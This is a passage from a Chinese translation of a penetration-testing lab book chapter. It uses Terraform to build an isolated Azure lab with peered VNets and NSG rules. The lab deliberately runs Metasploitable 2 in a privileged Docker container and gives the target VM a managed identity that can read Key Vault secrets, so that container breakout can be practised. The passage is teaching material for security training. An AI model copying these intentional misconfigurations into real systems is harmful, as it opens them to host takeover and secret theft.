


# 第五章：在 Azure 上设置隔离渗透测试实验室环境

在上一章中，我们成功地在`Google Cloud Platform`（**GCP**）中的隔离网络环境内建立并自动化了一个相对简单的渗透测试实验室。我们主要关注了在云中构建实验室环境时最重要的一个方面——保护易受攻击的实验室资源免受外部世界的攻击。

在本章中，我们将更进一步，使用`Microsoft Azure`中的各种服务构建一个更复杂的实验室环境。本章中的实验室设置将帮助我们练习**容器突破**技术，涉及从 Docker 容器环境中逃逸，进而获得对主机系统的未经授权访问。由于容器是现代部署中的基本组成部分，了解其安全漏洞对于确保基于云的应用程序的安全至关重要。除此之外，我们还将探讨如何滥用 Azure 中的**托管身份**来获得对其他云资源的未经授权访问。尽管托管身份在防止凭证暴露方面非常有效，但它们也引入了一个新问题，因为这些身份设置了其他攻击路径，可能被攻击者（或冒充攻击者的人）滥用。

在设置实验室环境后，我们将通过使用各种工具，如`Nmap`和`Metasploit`，进行简化的渗透测试模拟，以验证我们的易受攻击的设计实验室环境是否已正确（或错误）配置。在我们的模拟中，我们将通过一系列步骤展示如何利用多个漏洞和配置错误来获得对包含敏感凭证和信息的云资源的未经授权访问。

本章我们将涵盖以下主题：

+   准备必要的组件和先决条件

+   定义项目结构

+   准备隔离网络

+   设置目标资源

+   手动设置攻击者虚拟机实例

+   利用 Terraform 自动设置攻击者虚拟机实例

+   在隔离网络环境中模拟渗透测试

+   清理工作

接下来的章节将非常令人兴奋，我们将学习多种技术，从在 Azure 中构建渗透测试实验室环境到使用安全工具验证实验室设置中的配置错误和漏洞。

话不多说，让我们开始吧！

# 技术要求

在开始之前，我们必须准备好以下内容：

+   一个`Microsoft** **Azure`帐户

+   任何文本编辑器（如 Notepad++、Visual Studio Code 或 Sublime Text），我们可以在其中临时存储在本章的动手实践解决方案中使用的特定值（例如，我们本地机器的 IP 地址）

一旦准备好这些内容，您可以继续下一步。

重要说明

类似于 AWS 和 GCP，Azure 是一个成熟的云平台，提供了多种服务，使我们能够在云中构建渗透测试环境。我们将在 Azure 中找到配置虚拟机、数据库和其他云资源的各种选项，用于构建易受攻击的实验室环境。运行这些资源的成本可能会有所不同，因此请务必阅读可用的文档以及常见问题解答，充分了解在创建资源时哪些是免费的（哪些不是）。除此之外，请确保你*不要*使用任何包含生产（或暂存）环境资源的现有账户来进行本书中的动手练习和解决方案。强烈建议你创建一个*新的* Azure 账户，专门用于启动故意存在漏洞的资源。这将确保你的生产（或暂存）环境资源保持独立且安全。

每章使用的源代码和其他文件可以在本书的 GitHub 仓库中找到：[`github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud`](https://github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud)。

# 准备必要的组件和先决条件

在本部分，我们将设置一些关键组件和先决条件，为下一部分准备 Terraform 代码做准备。我们将首先手动创建一个资源组，用于存储本章后面使用的一些资源。除此之外，我们还将生成用于访问攻击者 **虚拟机` (**VM`) 实例的 SSH 密钥。

在我们继续进行本部分的动手操作之前，让我们先熟悉一下与本部分相关的一些关键服务和术语：

+   **资源组**：用于将多个资源进行逻辑分组的容器

+   `Golden image`：一个包含所有应用程序和配置设置的自定义虚拟机镜像，旨在作为标准化模板，用于提供多个具有相同软件和配置的实例

+   `Cloud Shell`：一种基于浏览器的互动命令行环境，使用户能够通过网页浏览器直接访问和管理资源

+   **SSH 密钥**：这是一对加密密钥（即 **私钥** 和其对应的 **公钥**），用于通过网络进行安全认证和系统间的通信

也就是说，本部分分为以下子部分：

+   *第一部分（共 2 部分）– 手动创建一个* *资源组*

+   *第二部分（共 2 部分）– 生成 SSH 密钥以访问攻击者* *VM 实例*

有了这些考虑，让我们继续。

## 第一部分（共 2 部分）– 手动创建一个资源组

我们先从创建一个资源组开始：

1.  在搜索框中，输入 `resource groups`，然后从搜索结果中选择 `Resource groups`（在 `Services` 下）。

1.  点击位于工具栏上的**+ 创建**按钮。

1.  在**创建资源组**表单中（类似于*图 5.1*中所示），为**资源组**输入框指定`image-resource-group`的值：

    图 5.1 – 创建资源组

    我们稍后将在创建虚拟机实例镜像时使用这个资源组。如果你在想我们在本章中会有多少个资源组，我们将拥有恰好三个资源组——手动创建的资源组（**image-resource-group**），以及两个我们将通过 Terraform 自动创建的资源组（`resource-group-01`和**resource-group-02**）。

注意

确保`Region`设置为**（US）东部美国**，因为我们将在本章中创建其他资源时使用相同的区域。

1.  点击**审查 +` `创建**按钮。

1.  最后，点击**创建**完成创建新的资源组。

重要提示

我们刚刚创建的资源组将用于存放本章稍后将准备的黄金镜像。*为什么我们需要为黄金镜像创建一个单独的资源组？* 正如我们稍后会看到的，将黄金镜像放在单独的资源组中将使我们能够无障碍地使用`terraform apply`和`terraform destroy`命令。如果黄金镜像位于自动创建的资源组之一中，我们将在清理和删除资源时被迫删除黄金镜像，以确保`terraform destroy`命令成功执行并完成。如果该自动创建的资源组包含未由 Terraform 管理的其他资源，我们将无法使用`terraform destroy`删除该资源组（除非我们在重新执行`terraform destroy`命令之前手动删除这些资源）。

## 第二部分中的第 2 步 – 生成 SSH 密钥以访问攻击者虚拟机实例

现在，让我们继续生成 SSH 密钥，以便稍后在本章中访问攻击者虚拟机实例：

1.  通过点击*图 5.2*中高亮显示的按钮，打开`Cloud Shell`编辑器：

    图 5.2 – 打开 Cloud Shell

    当系统提示选择`Bash`或`PowerShell`时，选择`Bash`。这将打开一个终端，我们可以在其中运行 bash 命令（在`$`符号后）。与我们在上一章中使用的 Google Cloud Shell 类似，Azure Cloud Shell 提供了一种方便的方式，通过现成的终端和编辑器来管理资源。

重要提示

由于 Azure Cloud Shell 需要一个文件共享来持久化文件，我们需要创建一个存储帐户，以防看到`You have no storage mounted`的消息。请参考以下链接，了解如何持久化文件并为 Azure Cloud Shell 创建新的存储帐户：[`learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage`](https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage)。

1.  在终端中（在`$`符号后），运行以下命令以创建一个新目录（命名为 **kali_keys**）并进入该目录：

    ```
    cd ~
    mkdir kali_keys && cd kali_keys
    ```

    我们将把生成的密钥存储在这个目录中。

1.  生成新的 SSH 密钥对并将生成的密钥文件保存在 `kali_keys` 目录中：

    ```
    ssh-keygen -t rsa -C kali -f ./kali-ssh
    ```

    当要求输入密码短语时，直接按 *Enter* 键。这将生成两个文件——`kali-ssh`（私钥）和 `kali-ssh.pub`（公钥）。

注意

在基于 SSH 密钥的认证中，私钥保密，通常存储在客户端（例如我们的本地机器）上，而相应的公钥用于认证，通常存储在我们尝试访问的服务器上。

1.  使用 `cat` 命令打印公钥值：

    ```
    cat kali-ssh.pub
    ```

    将该值存储在本地机器的文本编辑器中——我们将在本章后续部分配置 Kali Linux 虚拟机实例时使用它。

1.  点击 **上传`/`下载文件** 按钮，如 *图 5.3* 所示：

    图 5.3 – 下载我们生成的私钥

    从可用选项列表中选择 **下载** 选项。当您看到 **下载文件** 的弹出窗口时，在输入框中输入 `/kali_keys/kali-ssh`（如 *图 5.3* 所示），然后点击 **下载**。

注意

由于密钥（**kali-ssh**）与我们在上一章节下载的密钥名称相同，请确保不要在本地机器上混淆这些密钥，以免引起混淆。在继续下一步之前，您可以将下载的密钥从 *第四章* 重命名为 `kali-ssh-gcp`。

1.  点击 **点击此处下载文件** 链接以继续实际的下载操作。

在准备好前提条件后，我们现在可以开始设置项目结构了。

# 定义项目结构

在本章中，我们将使用一个类似于 *第四章* 中的 Terraform 项目结构——*在 GCP 上设置隔离的渗透测试实验室环境*。虽然本章与上一章节的实验环境有相似之处，但本章的实验环境将包含一些附加组件，增加其复杂度：



图 5.4 – 我们实验室的设置（不包括网络环境）

本章实验环境的主要组件之一将是一个安全的密钥存储（Azure Key Vault），我们将在其中存储一个标志。我们还将使实验室用户（扮演攻击者角色）能够突破运行中的容器并获取对虚拟机实例中宿主系统的未经授权的访问权限。一旦获得宿主系统的访问权限，系统分配的托管身份将允许从虚拟机实例内部访问 Azure Key Vault 中的机密。

注意

如果本节中使用的术语听起来不熟悉，请不要担心，我们将在下一节讨论并定义这些概念、术语和服务！

目前，我们将重点关注这些实验环境的共同点——**网络对等**设置，连接攻击者网络和目标网络（类似于*图 5.5*中所示的内容）：


图 5.5 – 连接两个网络的网络对等设置

考虑到本章将设置更复杂的实验环境，我们必须规划好配置额外资源的位置，而不需要大幅改变资源的分组方式。话虽如此，我们的 Terraform 项目结构将在本章中包含以下模块：

+   `secure_network`：包含为此实验环境创建和配置网络资源的代码的模块

+   `target_vm`：用于创建和配置目标虚拟机实例及其他目标资源的模块（包括我们将存储秘密标志的 Azure 密钥保管库资源）

+   `attacker_vm`：包含设置攻击者虚拟机实例代码的模块

尽管这种方法并不完美，但目前应当足够，因为我们本章的主要目标是介绍可能存在于现代云环境中的新漏洞和配置错误组件。

话虽如此，让我们继续设置初始的项目文件和目录：

1.  接着上一节的内容，让我们通过点击*图 5.6*中的按钮打开 Cloud Shell 编辑器：

    图 5.6 – 打开 Cloud Shell 编辑器

    随时可以通过点击编辑器左上角的最大化图标来最大化 Cloud Shell 窗口。

1.  在终端中（`$`符号后面），运行以下命令来创建`pentest_lab`项目目录（并导航到新目录）：

    ```
    cd ~
    mkdir -p pentest_lab && cd pentest_lab
    ```

1.  在`pentest_lab`目录中，让我们还创建`secure_network`、`target_vm`和`attacker_vm`目录：

    ```
    mkdir -p secure_network
    mkdir -p target_vm
    mkdir -p attacker_vm
    ```

    稍后我们将在这些目录中存储相应的模块文件。

注意

虽然通常会有一个名为`modules`的单独目录，用于存储单独的模块目录，如`secure_network`、`target_vm`和`attacker_vm`，但目前我们的项目和文件夹结构已经足够。

1.  让我们创建项目根文件夹中将包含的文件：

    ```
    touch main.tf
    touch variables.tf
    touch outputs.tf
    touch terraform.tfvars
    touch versions.tf
    touch provider.tf
    ```

    请注意，此时这些文件仍然是空的。我们将在接下来的过程中填充必要的配置。

注意

如果新文件和目录没有自动显示，请随时点击编辑器中的刷新按钮。

1.  在编辑器中打开`provider.tf`文件，并添加以下代码块：

    ```
     provider "azurerm" {
      features {}
    }
    ```

1.  接下来，让我们在编辑器中打开`versions.tf`文件。我们将添加以下代码块，以指定所使用的提供者的版本约束：

    ```
    terraform {
      required_version = ">=0.12"required_providers {
        azurerm = {
          source  = "hashicorp/azurerm"
          version = "~>2.0"
        }
        random = {
          source  = "hashicorp/random"
          version = "~>3.0"
        }
      }
    }
    ```

1.  在编辑器中打开`variables.tf`文件并添加以下代码块：

    ```
     variable "my_ip" {
      type = string
    }
    variable "kali_image_id" {
      type = string
    }
    variable "my_public_ssh_key" {
      type = string
    }
    ```

1.  在编辑器中打开`terraform.tfvars`文件并添加以下代码行：

    ```
     my_ip = "<INSERT IP ADDRESS>"
    kali_image_id = "<INSERT KALI IMAGE ID>"
    my_public_ssh_key = "<INSERT PUBLIC SSH KEY>"
    ```

    确保将`<INSERT IP ADDRESS>`替换为本地机器的 IP 地址，并将`<INSERT PUBLIC SSH KEY>`替换为公共 SSH 密钥的字符串值（我们之前通过`cat`命令打印过）。由于我们尚未创建攻击者 VM 实例的金色镜像，因此暂时保持`kali_image_id`占位符值（即**<INSERT KALI IMAGE ID>**）不变。

1.  在编辑器中打开`main.tf`文件，并添加以下代码块，以定义将用于此项目的模块：

    ```
     module "secure_network" {
      source = "./secure_network"
    }
    module "attacker_vm" {
      source = "./attacker_vm"
    }
    module "target_vm" {
      source = "./target_vm"
    }
    ```

    在这里，我们正在向`main.tf`添加模块块，以从各自的源目录中包含`secure_network`、`attacker_vm`和`target_vm`模块。确保在继续下一步之前保存`main.tf`文件。

1.  让我们使用以下命令创建一个空的`secure_network/main.tf`文件：

    ```
    touch secure_network/main.tf
    ```

1.  在编辑器中打开`secure_network/main.tf`文件，并为实验环境中将使用的资源组添加以下代码块：

    ```
     resource "azurerm_resource_group" "rg_01" {
      location = "eastus"
      name     = "resource-group-01"
    }
    resource "azurerm_resource_group" "rg_02" {
      location = "eastus"
      name     = "resource-group-02"
    }
    ```

1.  在我们的 Cloud Shell 终端（在`$`符号后）中，运行以下命令来初始化 Terraform 工作目录：

    ```
    terraform init
    ```

1.  让我们运行`terraform plan`来预览 Terraform 将要执行的更改：

    ```
    terraform plan
    ```

    这应该会生成以下输出：

    ```
    ... Plan: 2 to add, 0 to change, 0 to destroy. ...
    ```

    命令应该没有任何错误地完成。

1.  接下来，让我们使用`terraform apply`命令来实现这些更改：

    ```
    terraform apply -auto-approve
    ```

    这应该会给我们以下输出：

    ```
    ... Apply complete! Resources: 2 added, 0 changed, 0 destroyed. ...
    ```

    如果`terraform apply`命令运行没有任何错误，那么我们可以继续进行下一部分。否则，可以检查并修复 Terraform 配置中的任何现有代码问题。

1.  使用以下命令验证资源是否成功创建：

    ```
    terraform show
    ```

    这应该会返回我们在前一步创建的两个资源组。

在项目结构和骨架准备好之后，我们现在可以继续设置隔离的**虚拟网络**（**VNet**）环境。

# 准备隔离网络

在本节中，我们将重点设置将包含我们的渗透测试实验室资源的隔离网络环境。我们将在 Microsoft Azure 中建立一个安全的网络环境，限制来自外部主机的流量到达网络环境内部部署的云资源：


图 5.7 – 隔离网络环境

当然，即使资源部署在不同的虚拟网络（VNet）中，它们也应该能够相互通信。我们将通过设置**VNet 对等连接**来桥接两个虚拟网络，类似于我们在上一章中看到的 VPC 对等连接如何桥接两个 Google Cloud VPC。

在我们继续准备隔离的网络环境之前，让我们快速浏览一下与本章相关的 Azure 概念、特性和术语：

+   **订阅**：一个逻辑单元，作为计费和管理边界，使得 Azure 资源、访问控制和使用报告的组织与治理成为可能。

+   **租户**：代表 Azure 中的一个组织或身份。每个 Azure 订阅都与一个特定的租户相关联，多个订阅可以与同一个租户关联。

+   `VNet`：一个网络，为资源提供一个私有网络环境，以便在 Azure 内部进行安全通信（类似于 GCP 和 AWS 中的 VPC 网络）。

+   **VNet 对等连接**：连接 VNets，使这些网络之间能够进行流量传输。

+   **资源组**：一个逻辑容器，帮助在 Azure 订阅中组织和管理相关资源。

+   **网络接口卡**（**NIC**）：Azure 中的一个网络组件，充当虚拟机与底层网络基础设施之间的接口，使其能够与其他资源进行通信。NIC 提供与 IP 地址、网络安全组和网络路由相关的属性和配置。

+   **应用安全组**（**ASG**）：Azure 中的一个构造，允许您根据应用需求对网络安全策略进行分组和管理。ASG 提供了一种定义网络安全规则并将其与虚拟网络中的特定应用或服务关联的方法。

+   **网络安全组**（**NSG**）：一个网络安全构造，作为虚拟防火墙，用于控制进入和离开资源的流量。NSG 允许创建定义网络安全策略的规则，包括 **访问控制列表**（**ACL**）、过滤和端口转发。通过将 NSG 与子网或网络接口关联，管理员和工程师可以实施细粒度的网络流量控制和安全措施。

注意

NSG 专注于网络层面的安全控制，允许工程师基于 IP 地址、端口和协议定义规则。另一方面，ASG 提供了更高层次的抽象，允许工程师根据应用上下文对资源进行分组，从而实现更加以应用为中心的安全策略。

现在我们对本章中将要使用的 Microsoft Azure 概念和术语有了更好的了解，接下来让我们继续准备网络环境：

1.  从上一节结束的地方继续，我们在 `main.tf` 文件中找到以下代码块：

    ```
     module "secure_network" {
      source = "./secure_network"
    }
    ```

    让我们使用以下代码块进行替换：

    ```
    module "secure_network" {
      source = "./secure_network"
      my_ip = var.my_ip }
    ```

1.  让我们使用以下命令创建一个空的 `secure_network/variables.tf` 文件：

    ```
    touch secure_network/variables.tf
    ```

1.  接下来，在编辑器中打开 `secure_network/variables.tf` 文件，并添加以下代码块来定义我们 `secure_network` 模块的 `my_ip` 变量：

    ```
     variable "my_ip" {
      type = string
    }
    ```

    在继续之前，确保保存`secure_network/variables.tf`文件。

1.  在`secure_network/main.tf`文件中，我们将定义并配置第一个 VNet，并在其中定义一个子网：

    ```
     resource "azurerm_virtual_network" "vnet_01" {
      name                = "vnet-01"
      address_space       = ["10.0.0.0/16"]
      location            = (azurerm_resource_group
                              .rg_01.location)
      resource_group_name = (azurerm_resource_group
                              .rg_01.name)
    }
    resource "azurerm_subnet" "subnet_01" {
      name                 = "subnet-01"
      resource_group_name  = (azurerm_resource_group
                              .rg_01.name)
      virtual_network_name = (azurerm_virtual_network
                              .vnet_01.name)
      address_prefixes     = ["10.0.1.0/24"]
    }
    ```

1.  让我们也定义相应的 ASG 和 NSG：

    ```
     resource "azurerm_application_security_group" "asg_01" {
      name                = "asg-01"
      location            = (azurerm_resource_group
                              .rg_01.location)
      resource_group_name = (azurerm_resource_group
                              .rg_01.name)
    }
    resource "azurerm_network_security_group" "nsg_01" {
      name                = "nsg-01"
      location            = (azurerm_resource_group
                              .rg_01.location)
      resource_group_name = (azurerm_resource_group
                              .rg_01.name)
    }
    ```

1.  接下来，让我们定义并配置第二个 VNet，并在其中定义一个子网：

    ```
     resource "azurerm_virtual_network" "vnet_02" {
      name                = "vnet-02"
      address_space       = ["192.168.0.0/16"]
      location            = (azurerm_resource_group
                              .rg_02.location)
      resource_group_name = (azurerm_resource_group
                              .rg_02.name)
    }
    resource "azurerm_subnet" "subnet_02" {
      name                 = "subnet-02"
      resource_group_name  = (azurerm_resource_group
                              .rg_02.name)
      virtual_network_name = (azurerm_virtual_network
                              .vnet_02.name)
      address_prefixes     = ["192.168.1.0/24"]
    }
    ```

1.  接下来，让我们为攻击者虚拟机实例将要部署的虚拟网络（VNet）定义 ASG 和 NSG：

    ```
     resource "azurerm_application_security_group" "asg_02" {
      name                = "asg-02"
      location            = (azurerm_resource_group
                              .rg_02.location)
      resource_group_name = (azurerm_resource_group
                              .rg_02.name)
    }
    resource "azurerm_network_security_group" "nsg_02" {
      name                = "nsg-02"
      location            = (azurerm_resource_group
                              .rg_02.location)
      resource_group_name = (azurerm_resource_group
                              .rg_02.name)
    }
    ```

1.  让我们使用以下代码块定义对等连接：

    ```
     resource "azurerm_virtual_network_peering" "peer_1_to_2" {
      name                      = "peer1to2"
      resource_group_name       = (azurerm_resource_group
                                    .rg_01.name)
      virtual_network_name      = (azurerm_virtual_network
                                    .vnet_01.name)
      remote_virtual_network_id = (azurerm_virtual_network
                                    .vnet_02.id)
    }
    resource "azurerm_virtual_network_peering" "peer_2_to_1" {
      name                      = "peer2to1"
      resource_group_name       = (azurerm_resource_group
                                    .rg_02.name)
      virtual_network_name      = (azurerm_virtual_network
                                    .vnet_02.name)
      remote_virtual_network_id = (azurerm_virtual_network
                                    .vnet_01.id)
    }
    ```

    使用此 VNet 对等配置，来自第一个 VNet 子网（**vnet-01**）中部署的资源的流量，将能够到达第二个 VNet 子网（**vnet-02**）中部署的资源（反之亦然），前提是已正确定义并配置了必要的防火墙规则。

1.  为了让我们的本地机器通过端口`8081`访问第二个 VNet 中的资源，我们还需要定义一个网络安全规则：

    ```
     resource "azurerm_network_security_rule" "desktop-access" {
      name                        = "Desktop-Access"
      priority                    = 900
      direction                   = "Inbound"
      access                      = "Allow"
      protocol                    = "*"
      source_port_range           = "*"
      destination_port_range      = "8081"
      source_address_prefix= "${var.my_ip}/32" destination_address_prefix  = (
        azurerm_subnet.subnet_02.address_prefix )
      resource_group_name         = (
        azurerm_resource_group.rg_02.name
      )
      network_security_group_name = (
        azurerm_network_security_group.nsg_02.name
      )
    }
    ```

1.  此外，让我们创建一个网络安全规则，以允许我们的本地机器通过端口`22`访问第二个 VNet 中的资源：

    ```
     resource "azurerm_network_security_rule" "ssh-access" {
      name                        = "SSH-Access"
      priority                    = 1000
      direction                   = "Inbound"
      access                      = "Allow"
      protocol                    = "*"
      source_port_range           = "*"
      destination_port_range      = "22"
      source_address_prefix= "${var.my_ip}/32" destination_address_prefix  = (
        azurerm_subnet.subnet_02.address_prefix )
      resource_group_name         = (
        azurerm_resource_group.rg_02.name
      )
      network_security_group_name = (
        azurerm_network_security_group.nsg_02.name
      )
    }
    ```

注意

在继续下一组步骤之前，确保保存`secure_network/main.tf`文件。你可以在这里找到`secure_network/main.tf`文件的副本：[`github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud/blob/main/ch05/pentest_lab/secure_network/main.tf`](https://github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud/blob/main/ch05/pentest_lab/secure_network/main.tf)。

1.  让我们使用以下命令创建一个空的`secure_network/outputs.tf`文件：

    ```
    touch secure_network/outputs.tf
    ```

1.  打开`secure_network/outputs.tf`文件，在编辑器中添加以下代码行以定义以下输出：

    ```
     output "asg_01" {
      value = azurerm_application_security_group.asg_01.id
    }
    output "nsg_01" {
      value = azurerm_network_security_group.nsg_01.id
    }
    output "rg_01_location" {
      value = azurerm_resource_group.rg_01.location
    }
    output "rg_01_name" {
      value = azurerm_resource_group.rg_01.name
    }
    output "subnet_01" {
      value = azurerm_subnet.subnet_01.id
    }
    ```

1.  在`secure_network/outputs.tf`中，在最后一个已定义的输出块后添加以下输出：

    ```
     output "asg_02" {
      value = azurerm_application_security_group.asg_02.id
    }
    output "nsg_02" {
      value = azurerm_network_security_group.nsg_02.id
    }
    output "rg_02_location" {
      value = azurerm_resource_group.rg_02.location
    }
    output "rg_02_name" {
      value = azurerm_resource_group.rg_02.name
    }
    output "subnet_02" {
      value = azurerm_subnet.subnet_02.id
    }
    ```

    在继续下一步之前，确保保存`secure_network/outputs.tf`文件。

1.  返回到`~/pentest_lab`项目文件夹：

    ```
    cd ~/pentest_lab
    ```

1.  让我们运行`terraform plan`来预览 Terraform 将执行的更改：

    ```
    terraform plan
    ```

    这应该会给我们以下输出：

    ```
    ... Plan: 12 to add, 0 to change, 0 to destroy. ...
    ```

1.  最后，让我们使用`terraform apply`来实现这些更改：

    ```
    terraform apply -auto-approve
    ```

注意

运行此命令时可能会出现一些弃用警告。只要我们能够成功运行命令而没有错误，应该没问题。

到此为止，网络环境已准备好！在接下来的部分，我们将继续设置目标资源。

# 设置目标资源

随着隔离的网络环境准备就绪，我们现在可以继续设置目标虚拟机实例，并添加一些附加资源，如包含附加标志密钥的 Azure Key Vault，以及在虚拟机实例内部运行的具有提升权限的易受攻击的容器：


图 5.8 – 本节将要设置的目标资源

在本节中，我们将在 VNet 01 内设置目标虚拟机实例，类似于上一章中设置目标虚拟机实例的方式。本章的一个主要区别是我们将运行`Metasploitable 2`容器，而不是`OWASP Juice Shop`容器。与 OWASP Juice Shop 类似，Metasploitable 2 故意包含了多种不安全的配置和易受攻击的软件包。虽然 Metasploitable 2 主要设计并分发为一个易受攻击的虚拟机，但它也可以配置为容器运行。我们将运行这个易受攻击的容器，并使用`--privileged`标志，这样我们可以在本章最后的渗透测试模拟中突破容器。

注意

Docker 中的`--privileged`标志授予容器在宿主系统中提升的权限。这会带来潜在的安全风险，攻击者可以通过容器突破并获得宿主系统的 root 级访问权限（从容器内部）。虽然我们不会深入探讨容器突破的工作原理，但我们将在本章最后的模拟环节中简要演示如何执行这一操作。

除此之外，我们将配置目标虚拟机实例，使其具有系统分配的托管身份。这将使我们能够在实例内部访问 Azure Key Vault 的机密，而无需在使用 Azure CLI 时显式地指定凭据。如果你想了解`Azure Key Vault`是什么，它是微软 Azure 中的一个云服务，允许用户、开发者和工程师在一个集中的存储库中安全地存储和管理加密密钥、机密和证书。从渗透测试的角度来看，理解 Azure Key Vault 的工作原理至关重要，因为测试人员需要评估现有的安全控制措施，并识别使用该服务时的潜在漏洞和配置错误。

也就是说，本节分为以下子部分：

+   *第一部分（共二部分）– 使用 Terraform* *准备目标资源*

+   *第二部分（共二部分）– 验证我们的目标虚拟机* *实例设置*

## 第一部分（共二部分）– 使用 Terraform 准备目标资源

按照以下步骤操作：

1.  让我们使用以下命令在`target_vm`目录下创建`main.tf`、`variables.tf`和`outputs.tf`文件：

    ```
    touch target_vm/main.tf
    touch target_vm/variables.tf
    touch target_vm/outputs.tf
    ```

1.  使用`wget`命令下载`boot-script.sh`脚本文件：

    ```
    DOWNLOAD_URL=`https://raw.githubusercontent.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud/main/ch05/pentest_lab/target_vm/boot-script.sh`
    wget -O target_vm/boot-script.sh $DOWNLOAD_URL
    ```

    确保`DOWNLOAD_URL`变量的值是正确的，并正确指向 boot-script.sh 文件。如果你想知道`boot-script.sh`里包含什么，下面是脚本文件内容的快速截图。

    

    图 5.9 – boot-script.sh

    执行时，以下脚本文件将（1）为第一个 flag 创建一个`flag1.txt`文件，（2）在虚拟机实例中安装 Docker，（3）拉取`Metasploitable 2`容器镜像，（4）以提升权限运行该漏洞容器，并将特定容器端口映射到虚拟机实例端口，（5）在虚拟机实例中安装`Azure CLI`，以及（6）将第二个 flag 设置为 Azure 密钥保管库中的秘密。

注意

如果你想知道什么是`flag`，它作为渗透测试实验室环境中成功利用和进展的关键标志。Flag 可能代表攻击者（或扮演攻击者角色的人）在实际攻击中想要获取的敏感数据或凭据。所以，我们可以将渗透测试实验室环境看作是一个迷宫，其中的 flag 就像是等待在不同路段被发现的宝贵财富。

1.  接下来，在`target_vm/variables.tf`中定义以下变量：

    ```
     variable "asg" {
      type = string
    }
    variable "nsg" {
      type = string
    }
    variable "rg_location" {
      type = string
    }
    variable "rg_name" {
      type = string
    }
    variable "subnet" {
      type = string
    }
    ```

    这些变量稍后将在我们定义`target_vm`模块中的资源时使用。

注意

确保在继续之前保存你对`target_vm/variables.tf`文件所做的更改。

1.  现在，让我们在编辑器中打开`target_vm/main.tf`文件。保持这个文件打开，我们将在接下来的步骤中在此文件内定义各种资源。

1.  在`target_vm/main.tf`文件中，添加以下代码块，用于访问目标虚拟机实例的凭据：

    ```
     resource "random_string" "random_password" {
      length           = 12
      special          = true
      override_special = "!#$%&"
      min_lower        = 2
      min_special      = 2
      min_upper        = 2
    }
    locals {
        vm_username = "testuser"vm_password = random_string.random_password.result
    }
    ```

1.  在`target_vm/main.tf`文件中，让我们还定义目标虚拟机实例的公共 IP 地址和网络接口资源：

    ```
     resource "azurerm_public_ip" "public_ip_target" {
      name                = "public-ip-target"
      location            = var.rg_location
      resource_group_name = var.rg_name
      allocation_method   = "Dynamic"
    }
    resource "azurerm_network_interface" "nic_target" {
      name                = "nic-target"
      location            = var.rg_location
      resource_group_name = var.rg_name
      ip_configuration {
        name          = "nic_configuration_target"
        subnet_id                     = var.subnet
        private_ip_address_allocation = "Dynamic"
        public_ip_address_id          = (
          azurerm_public_ip.public_ip_target.id
        )
      }
    }
    ```

1.  我们还需要在`target_vm/main.tf`文件中定义关联，使用以下代码块：

    ```
     resource "azurerm_network_interface_security_group_association" "nsg_assoc_target" {
      network_interface_id      = (
        azurerm_network_interface.nic_target.id
      )
      network_security_group_id = var.nsg
    }
    resource "azurerm_network_interface_application_security_group_association" "asg_assoc_target" {
      network_interface_id          = (
        azurerm_network_interface.nic_target.id
      )
      application_security_group_id = var.asg
    }
    ```

1.  准备好所有先决条件后，接下来将以下代码块添加到`target_vm/main.tf`文件中，以定义和配置目标虚拟机实例：

    ```
     resource "azurerm_linux_virtual_machine" "vm_target" {
      name                  = "vm-target"
      location              = var.rg_location
      resource_group_name   = var.rg_name
      size                  = "Standard_D2s_v3"
      network_interface_ids = (
        [azurerm_network_interface.nic_target.id]
      )
      os_disk {
        name                 = "os-disk-target"
        caching              = "ReadWrite"
        storage_account_type = "Standard_LRS"
      }source_image_reference {
        publisher = "Canonical"
        offer     = "0001-com-ubuntu-server-jammy"
        sku       = "22_04-lts-gen2"
        version   = "latest"
      }
      computer_name                   = "vm-target"
      admin_username                  = local.vm_username
      admin_password                  = local.vm_password
      disable_password_authentication = false
      boot_diagnostics {
